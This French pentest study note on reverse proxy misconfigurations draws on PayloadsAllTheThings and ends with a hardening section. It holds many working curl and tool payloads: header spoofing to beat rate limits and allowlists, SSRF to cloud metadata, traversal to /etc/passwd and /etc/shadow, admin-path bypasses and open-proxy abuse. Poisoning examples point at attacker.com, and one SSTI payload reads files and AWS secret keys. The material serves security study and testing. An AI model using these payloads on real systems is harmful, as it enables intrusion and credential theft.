

# Reverse Proxy Misconfigurations

> [!info] **En 1 phrase**
> Un reverse proxy **fait confiance à des headers envoyés par le client** (`X-Forwarded-For`,
> `X-Forwarded-Host`, `X-Original-URL`…) au lieu de les forcer → bypass de rate-limit/IP,
> SSRF, path traversal vers l'interne, voire **prise en main du proxy** comme open proxy.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Reverse%20Proxy/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Les headers `X-*` ne sont **pas des mécanismes de confiance** : ce sont de simples champs HTTP.
> Le proxy doit les **réécrire** avec la vraie source (`$remote_addr`, `$host`). S'il les
> relaie tels quels (ou si l'app les lit directement), **l'attaquant les contrôle à 100 %**.

---

## Le reverse proxy et la confiance dans les headers

### Rôle du proxy

> S'intercale entre le client et le(s) backend(s) : reverse proxy = côté serveur (≠ forward proxy).

| Logiciel | Directive de confiance | Risque si mal réglé |
|---|---|---|
| **nginx** | `proxy_set_header X-Forwarded-For $remote_addr;` / `real_ip_header` + `set_real_ip_from` | XFF non écrasé, alias off-by-slash, `proxy_pass` variable |
| **Apache** | `mod_remoteip` (RemoteIPHeader) / `mod_proxy` (`ProxyPass`) | `ProxyPass` mal normalisé, `RemoteIPHeader` sans `RemoteIPTrustedProxy` |
| **HAProxy** | `option forwardfor` / `http-request set-header` | sans `option forwardfor`, le backend voit l'IP du proxy… ou le client spoof |
| **Traefik** | `forwardedHeaders.trustedIPs` | sans `trustedIPs`, tout header XFF client est accepté |

### Quand c'est mal configuré (les 3 cas types)

```txt
1. Le proxy RELAIE les headers X-* sans les réécrire → l'attaquant envoie ce qu'il veut.
2. L'app back-end lit X-* pour décider (IP, host, proto, URL) → décisions forgées.
3. Le proxy fait de l'extraction (ProxyPass/proxy_pass) sur une valeur utilisateur (Host, URI, argument)
   sans validation → SSRF / traversal / open proxy.
```

> [!warning] **Le piège de l'empilement**
> Le client doit contrôler le header **jusqu'à la couche qui le lit**. Un proxy correctement
> configuré écrase `X-Forwarded-For`. Mais si le client parle DIRECTEMENT au backend
> (port exposé, mauvaise ACL), ou si un 2e proxy intermédiaire relaie, le header est falsifiable.

---

## Les headers dangereux

| Header | Contenu | Ce qu'il permet |
|---|---|---|
| `X-Forwarded-For` | chaîne d'IP séparées par des virgules | Bypass rate-limit, WAF, allowlist IP, geo-blocking, logging |
| `X-Real-IP` | IP unique (nginx) | Idem, forme simplifiée |
| `True-Client-IP` | IP client (Akamai, Cloudflare) | Idem, très accepté par les apps |
| `X-Originating-IP` / `X-Client-IP` / `X-Remote-Addr` | variantes IP | Idem |
| `Forwarded` | RFC 7239 : `for=…;host=…;proto=…` | Spoof toutes les valeurs si l'app la parse |
| `X-Forwarded-Host` | le Host original | SSRF, cache poisoning, vhost routing, password-reset poisoning |
| `X-Forwarded-Proto` | `http` / `https` | Bypass redirect HTTP→HTTPS, mixed content, auth basée sur "on est en https" |
| `X-Forwarded-Server` | hostname interne du serveur | Info leak / routage vers un backend interne |
| `X-Original-URL` / `X-Rewrite-URL` | URL "avant réécriture" | **Traversal / bypass admin** si le proxy/WAF re-lit la vraie URL |
| `X-Host` | alias de Host | Idem Host header injection |

```http
# Exemple de chaîne X-Forwarded-For quand il y a 3 sauts de proxy
X-Forwarded-For: 2.21.213.225, 104.16.148.244, 184.25.37.3

# RFC 7239 (le standard, remplace X-*) — un seul header peut tous les spoof
Forwarded: for=203.0.113.7;host=evil.com;proto=http
```

> [!info] **Qui ajoute quoi**
> - `X-Real-IP` et `True-Client-IP` ne portent qu'**une** IP (le client du 1er proxy).
> - `X-Forwarded-For` **accumule** la chaîne : chaque saut ajoute l'adresse de celui dont il a reçu la requête.
> - nginx peut écraser XFF avec la vraie IP : `proxy_set_header X-Forwarded-For $remote_addr;`

---

## Attaques

### 1Bypass IP / rate-limit / allowlist (X-Forwarded-For)

> L'app bloque `1.2.3.4` (trop de requêtes) mais lit `X-Forwarded-For` pour prendre l'IP réelle.

```bash
# Même si le vrai client est banni, le proxy relaie le header forgé :
curl -s http://target/ -H "X-Forwarded-For: 127.0.0.1"
curl -s http://target/ -H "X-Forwarded-For: 10.0.0.1"
curl -s http://target/ -H "X-Forwarded-For: 203.0.113.7"

# Variantes de noms de header (à tester en force brute)
curl -s http://target/ -H "X-Real-IP: 127.0.0.1"
curl -s http://target/ -H "X-Originating-IP: 127.0.0.1"
curl -s http://target/ -H "X-Client-IP: 127.0.0.1"
curl -s http://target/ -H "True-Client-IP: 127.0.0.1"
curl -s http://target/ -H "Forwarded: for=127.0.0.1"
```

```txt
Cas d'usage réel :
- Rate-limit (login brute force, OTP, API) : changer XFF à chaque tentative.
- Admin en allowlist 127.0.0.1 / 10.x → on se fait passer pour l'interne.
- WAF / CDN qui punit l'IP : le header peut court-circuiter la détection.
- Geo-blocking (accès limité à un pays) : XFF = IP du pays autorisé.

Le first vs last problème :
- Si le proxy AJOUTE l'IP réelle à la fin : "client, proxy" → l'app qui lit le PREMIER
  élément est vulnérable ; celle qui lit le DERNIER est safe.
- Si le proxy ÉCRASE le header ($remote_addr) : rien à faire sur ce header.
```

### 2SSRF via X-Forwarded-Host / Host / absolut URI

> Le backend (ou le `proxy_pass` lui-même) construit une URL avec le Host contrôlé.

```http
# 1. Si l'app utilise le Host/X-Forwarded-Host pour fetch ou redirect :
GET /fetch?url=paris HTTP/1.1
Host: target.com
X-Forwarded-Host: 10.0.0.5:8080        # → requête interne en + du vrai fetch

# 2. Absolut URI : la request-line porte l'URL complète au lieu du chemin.
#    Certains proxies (Apache mod_proxy, anciennes confs nginx) routent vers l'hôte de l'URL.
GET http://127.0.0.1:8080/admin HTTP/1.1
Host: target.com
```

```bash
# Absolut URI avec curl (--request-target) :
curl -s --request-target "http://127.0.0.1:8080/admin" http://target/

# proxy_pass basé sur une variable → SSRF direct
#   proxy_pass http://$host;  ou  proxy_pass http://$http_x_forwarded_host;
curl -s http://target/ -H "X-Forwarded-Host: 10.10.10.10:80"
curl -s http://target/ -H "Host: 169.254.169.254"          # metadata cloud si $host
curl -s http://target/ -H "X-Forwarded-Host: metadata.google.internal"
```

```txt
Comment vérifier que le header est respecté :
1. Envoyer X-Forwarded-Host: COLLABORATOR (Burp Collaborator / interactsh).
2. Regarder si on reçoit un ping HTTP/DNS sur notre domaine → le proxy/app a fetché.
3. Dans la réponse, repérer une REFLECTION du header (Host, links, redirect, cache key).
4. Password reset poisoning : X-Forwarded-Host: attacker.com → le lien de reset
   pointé vers attacker.com = vol de token.
```

### 3Path traversal vers l'interne & bypass `/admin`

#### Off-by-slash (alias nginx)

> `location /styles { alias /path/css/; }` : `/styles../secret.txt` → `/path/css/../secret.txt`.

```bash
curl -s --path-as-is "http://target/styles../nginx.conf"
curl -s --path-as-is "http://target/files../etc/passwd"
curl -s --path-as-is "http://target/static../etc/shadow"
# Principe : l'alias concatène sans normaliser → ../ ressort du dossier servi
```

#### Missing root location (nginx)

> `root /etc/nginx;` global + pas de `location /` → `/nginx.conf` = `/etc/nginx/nginx.conf`.

```bash
curl -s http://target/nginx.conf
curl -s http://target/../nginx.conf
```

#### proxy_pass non normalisé (slash final vs pas de slash)

```txt
location /app/ { proxy_pass http://backend/; }   # /app/foo   → /foo        (découpe le préfixe)
location /app  { proxy_pass http://backend;  }   # /app/foo   → /app/foo    (colle tel quel)

Trailing slash : avec "http://backend/" un /app/../admin peut remonter ailleurs.
Sans normalisation du proxy : /admin/.. ou /%2e%2e/ laissent passer vers le backend.
```

#### Bypass 40X (`/admin` bloqué par le proxy/WAF)

```bash
# Le proxy bloque /admin mais le backend sert le même contenu — trouver une forme équivalente :
curl -s --path-as-is "http://target//admin"
curl -s --path-as-is "http://target/./admin"
curl -s --path-as-is "http://target/%2e/admin"
curl -s --path-as-is "http://target/%2f/admin"
curl -s --path-as-is "http://target/admin%2f"
curl -s --path-as-is "http://target/admin%2e"
curl -s --path-as-is "http://target/admin%3f"
curl -s --path-as-is "http://target/admin/"
curl -s --path-as-is "http://target/admin;.css"
curl -s --path-as-is "http://target/ADMIN"          # casse (si backend Windows)
curl -s --path-as-is "http://target/admin..;/"
curl -s --path-as-is "http://target/%252e%252e/admin"   # double encodage

# Via X-Original-URL / X-Rewrite-URL (proxy qui re-route selon "l'URL d'origine") :
curl -s http://target/ -H "X-Original-URL: /admin"
curl -s http://target/ -H "X-Rewrite-URL: /admin"
```

### 4Open proxy & HTTP Request Smuggling

> Si le `proxy_pass` accepte un hôte/URL arbitraire, **le serveur devient un forward proxy** :
> on s'en sert comme relais vers l'interne (SSRF massif) ou on abrite nos scans.

```bash
# Utiliser la cible comme proxy ouvert :
curl -s -x http://target:80 http://10.0.0.5/
curl -s -x http://target:80 http://169.254.169.254/latest/meta-data/
curl -s -x http://target:80 -k https://somewhere.internal/
```

```txt
HTTP Request Smuggling (CL.TE / TE.CL) :
Le proxy et le backend ne découpent pas la requête de la même façon.
→ on empoisonne le tunnel vers le backend pour atteindre des endpoints internes,
  bypass des ACL du proxy, ou on empoisonne les réponses (cache).
Voir la note [[HTTP Request Smuggling| Smuggling]] pour la méthodo complète.
```

### 5Host header injection & cache poisoning

```bash
# vhost routing : le proxy choisi le backend selon Host → se faire router ailleurs
curl -s http://target/ -H "Host: admin.internal"
curl -s http://target/ -H "Host: staging.target.com"

# Cache poisoning : la clé de cache ne prend pas X-Forwarded-Host → réponse empoisonnée pour tous
curl -s http://target/?x=1 -H "X-Forwarded-Host: attacker.com"
#   → si la page (récupérée depuis le cache) contient des liens/ressources vers attacker.com
#   → steal de sessions JS, redirections. Combiner avec la note [[Web Cache Deception| Cache Deception]].
```

---

## Payloads — tests header par header

> [!tip] **Méthode de vérification universelle**
> Envoyer une **valeur unique identifiable** (ex : `X-Forwarded-For: 87.65.43.21` ou
> `X-Forwarded-Host: uniquetest<rand>.example.com`) puis chercher :
> 1. une **réflexion** dans la réponse (body, headers, cookies, redirects) ;
> 2. un **changement de comportement** (rate-limit, logique d'auth, routage) ;
> 3. un **ping OAST** (si l'app fetch).

### X-Forwarded-For — le proxy le relaie-t-il ?

```bash
curl -sv http://target/ -H "X-Forwarded-For: 1.2.3.4"
# Si la réponse/logging reflète 1.2.3.4 → le proxy RELAIE (contrôlable).
# Test rapide du premier vs dernier élément :
curl -sv http://target/ -H "X-Forwarded-For: AAAA, BBBB"
```

### X-Forwarded-Host — utilisé par le routing ?

```bash
curl -sv http://target/ -H "X-Forwarded-Host: evil.com"
# Réflexion du host dans links/redirects / Host du backend → header vivant.
# Puis pour SSRF : remplacer par IP interne / collaborator.
```

### X-Forwarded-Proto — l'app fait confiance ?

```bash
curl -sv http://target/ -H "X-Forwarded-Proto: https"
# → si l'app décide "c'est du https" (cookies Secure, redirection, logique HSTS) on a bypass.
# Variante : X-Forwarded-Proto: http sur un endpoint censé être protégé.
```

### X-Original-URL / X-Rewrite-URL — path rewriting ?

```bash
curl -sv http://target/ -H "X-Original-URL: /admin"
curl -sv http://target/ -H "X-Rewrite-URL: /secret/endpoint"
# → si la réponse change (200 au lieu de 403), le proxy re-route sur notre chemin.
```

### Forwarded (RFC 7239)

```bash
curl -sv http://target/ -H "Forwarded: for=127.0.0.1;proto=https;host=evil.com"
```

### Absolut URI & request-line

```bash
printf 'GET http://10.0.0.5/ HTTP/1.1\r\nHost: target.com\r\nConnection: close\r\n\r\n' | nc -v target 80
curl -s --request-target "http://10.0.0.5/" http://target/
curl -s --path-as-is "http://target/http://169.254.169.254/"    # forme tordue
```

---

## Outils

| Outil | Usage |
|---|---|
| **Burp Suite** | Repeater (headers), Match & Replace (injecter XFF automatiquement), comparer réponses |
| **Burp : HTTP Request Smuggler** (ext. PortSwigger) | Détecter CL.TE / TE.CL entre proxy et backend |
| **ffuf** | Fuzzer les valeurs de header ET les chemins 40X-bypass |
| **nuclei** | Templates http : ajouter les headers X-* dans les templates existants |
| **Python requests** | Script d'énumération des noms de headers (`X-Real-IP`, `X-Originating-IP`…) |
| **curl `--path-as-is` / `--request-target`** | Traversal & absolut URI sans "réparation" du chemin |
| **gixy / Gixy-Next** | Analyseur statique des confs nginx (détecte proxy_pass variable, alias…) |
| **Kyubi** | Détection de l'off-by-slash nginx (alias traversal) |
| **bypass-url-parser** | Brute force des bypass 40X en masse |

```bash
# ffuf : fuzzer le nom de header IP
ffuf -w /usr/share/seclists/Discovery/Web-Content/headers.txt \
     -u http://target/ -H "FUZZ: 127.0.0.1" -mc 200,301,302 -fs 1234

# ffuf : fuzzer les chemins /admin-bypass
ffuf -w payloads_40x.txt -u http://target/FUZZ -mc 200 -fs 5678

# nuclei : template minimal ajoutant XFF puis vérifiant un code
cat > /tmp/xff.yaml <<'EOF'
id: spoofed-x-forwarded-for
info:
  name: Spoofed X-Forwarded-For
  severity: info
http:
  - method: GET
    path:
      - "{{BaseURL}}"
    headers:
      X-Forwarded-For: "127.0.0.1"
      X-Real-IP: "127.0.0.1"
EOF
nuclei -u http://target/ -t /tmp/xff.yaml -debug

# Python : tester les noms de headers un par un
python3 - <<'EOF'
import requests
names = ["X-Forwarded-For","X-Real-IP","X-Originating-IP","X-Client-IP",
         "True-Client-IP","X-Forwarded-Host","X-Forwarded-Proto","Forwarded"]
for h in names:
    try:
        r = requests.get("http://target/", headers={h: "127.0.0.1"}, timeout=5)
        print(f"{h:20} -> {r.status_code} len={len(r.content)}")
    except Exception as e:
        print(h, "ERR", e)
EOF
```

---

## Détection & Défense

| Mesure | Détail |
|---|---|
| **Ne jamais lire X-\* côté app** | L'app ne doit utiliser que la valeur **écrasée** par le proxy ; idéalement un header privé (`X-Real-IP` généré par le proxy, jamais côté client) |
| **Écraser XFF au proxy** | nginx : `proxy_set_header X-Forwarded-For $remote_addr;` / HAProxy : `option forwardfor` / Apache : `RemoteIPHeader` + `RemoteIPTrustedProxy <IPs>` |
| **Allowlist des proxies de confiance** | nginx : `set_real_ip_from <IP>` + `real_ip_header X-Forwarded-For` + `real_ip_recursive on;` — seuls les proxies connus modifient l'IP |
| **proxy_pass fixé, jamais variable** | Pas de `proxy_pass http://$host;` ni `$http_x_forwarded_host` — URL backend en dur, allowlist d'hôtes |
| **Normaliser les chemins** | Canonicalisation de l'URI avant routage, décoder `%2e`/`%2f`, rejeter les `..`, `merge_slashes on` par défaut à garder |
| **Validation du chemin** | `location` avec **préfixe + slash** (`/admin/`) pour éviter le off-by-slash ; `try_files` + `=404` sur le reste |
| **Exact match pour l'admin** | `location = /admin { deny all; }` ou ACL au niveau backend, pas uniquement au proxy |
| **Host allowlist** | Valider `Host` / `X-Forwarded-Host` contre une liste ; 400 sinon |
| **TLS décidé par le proxy** | `X-Forwarded-Proto` posé par le proxy uniquement (`proxy_set_header X-Forwarded-Proto $scheme;`) |
| **Surveillance** | Logs du proxy (source IP réelle + headers reçus), alertes sur valeurs anormales dans X-\* |
| **Analyse statique** | Passer les confs dans gixy / Gixy-Next, vérifier alias + root + proxy_pass |

---

## Tips & Pièges

> [!tip] **Ordre logique des tests**
> 1. **Fingerprinter le proxy** : header `Server`, pages d'erreur, `Via:` → on sait quoi viser.
> 2. **Test de relais** : envoyer une valeur unique dans chaque header, chercher la **réflexion**.
> 3. **Par header**, appliquer l'attaque : XFF→bypass IP, XFH→SSRF/poisoning, X-Original-URL→traversal.
> 4. **Fuzzer les chemins** (off-by-slash, slash, encodages) pour les 40X.
> 5. **Smuggling** en dernier si le proxy et le backend ont des parsers différents.

> [!warning] **Proxy qui réécrit ≠ proxy qui relaie**
> - Si nginx fait `proxy_set_header X-Forwarded-For $remote_addr;` → il **écrase**, le header est inutile.
> - S'il fait `proxy_pass` + app lit XFF **sans** qu'il soit posé → l'attaquant le pose lui-même.
> - Un proxy qui **append** (`option forwardfor` + header déjà présent) peut laisser passer
>   `XFF: 127.0.0.1, <vraie IP>` → lire le **premier** élément = vulnérable.
> → Tester : `X-Forwarded-For: AAAA` puis `X-Forwarded-For: AAAA, BBBB`, observer ce qui est loggé/utilisé.

> [!warning] **Distinguer ce qui est contrôlable**
> Le client contrôle **tout le trafic avant le 1er proxy de confiance**. Il ne contrôle **rien**
> après un proxy qui réécrit. Si le backend est directement joignable (port 80/443 exposé,
> mauvaise ACL interne), tout ce qui suit est faux → vérifier les ports exposés en premier.

> [!warning] **Pièges classiques**
> - `curl` "répare" les chemins : toujours `--path-as-is` pour les tests traversal.
> - Off-by-slash = **alias**, pas `proxy_pass` : `location /x { alias /dir/; }` → `GET /x../secret`.
> - `root /etc/nginx;` sans `location /` → n'importe quel fichier de conf est lisible.
> - Absolut URI : certains proxies **ne routent pas** vers l'URL de la request-line → tester aussi le Host.
> - Cache poisoning : la **clé de cache** ignore souvent X-Forwarded-Host → la réponse empoisonnée sert à tous.
> - **Ne pas brûler la cible** : un rate-limit bypass pour du brute force OTP = risque de lockout + logs.
> - **OPSEC open proxy** : une fois proxy ouvert, notre IP est celle de la victime dans les logs des cibles internes.

> [!tip] **Bonus — Caddy `templates` (SSTI)**
> `templates` directive + `respond "You came from {http.request.header.Referer}"`
> → les accolades sont évaluées comme un template Go :
> ```bash
> curl -H 'Referer: {{readFile "etc/passwd"}}' http://target/
> curl -H 'Referer: {{env "AWS_SECRET_ACCESS_KEY"}}' http://target/
> curl -H 'Referer: {{listFiles "/"}}' http://target/
> ```

---

## Liens

- [[SSRF| SSRF]]
- [[HTTP Request Smuggling| Smuggling]]
- [[Web Cache Deception| Cache Deception]]
- [[Injection SQL| Injection SQL]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Reverse Proxy](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Reverse%20Proxy/README.md)
- Labs : [Root-Me — Nginx misconfigurations](https://www.root-me.org/) · [Detectify — vulnerable-nginx](https://github.com/detectify/vulnerable-nginx)
